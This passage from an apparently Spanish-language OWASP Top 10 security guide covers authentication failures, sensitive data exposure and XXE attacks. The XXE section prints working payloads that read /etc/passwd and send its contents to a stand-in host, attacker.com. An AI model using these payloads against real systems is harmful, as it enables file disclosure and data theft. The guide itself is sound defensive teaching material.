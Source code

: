 ```
│   ├── Inadequate session timeout
│   └── Session not invalidated on logout
└── Multi-factor Authentication Bypass
    ├── MFA not required for sensitive functions
    ├── Backup authentication methods weak
    ├── SMS-based MFA vulnerabilities
    └── Recovery process weaknesses
```

### A3: Sensitive Data Exposure

#### Exposición de Datos Sensibles
Muchas aplicaciones web y APIs no protegen adecuadamente los datos sensibles, como información financiera, de salud o PII (Personally Identifiable Information).

```
Data Protection Failures:
├── Data in Transit
│   ├── HTTP instead of HTTPS
│   ├── Weak TLS configuration
│   ├── Mixed content issues
│   ├── Certificate validation bypass
│   └── Insecure protocols (FTP, Telnet)
├── Data at Rest
│   ├── Unencrypted databases
│   ├── Weak encryption algorithms
│   ├── Hardcoded encryption keys
│   ├── Unencrypted backups
│   └── Insecure file permissions
├── Data Processing
│   ├── Plaintext passwords in memory
│   ├── Sensitive data in logs
│   ├── Cache poisoning
│   ├── Debug information exposure
│   └── Error message leakage
└── Compliance Violations
    ├── PCI DSS non-compliance
    ├── GDPR violations
    ├── HIPAA non-compliance
    └── Industry-specific regulations
```

### A4: XML External Entities (XXE)

#### Ataques XXE
Los **ataques XML External Entities** ocurren cuando aplicaciones XML más antiguas o mal configuradas evalúan referencias de entidades externas dentro de documentos XML.

```xml
<!-- XXE Attack Example -->
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>

<!-- Blind XXE with external DTD -->
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://attacker.com/evil.dtd"> %xxe;]>

<!-- Parameter entity XXE -->
<!DOCTYPE foo [<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://attacker.com/?x=%file;'>">
%eval;
%exfiltrate;]>
```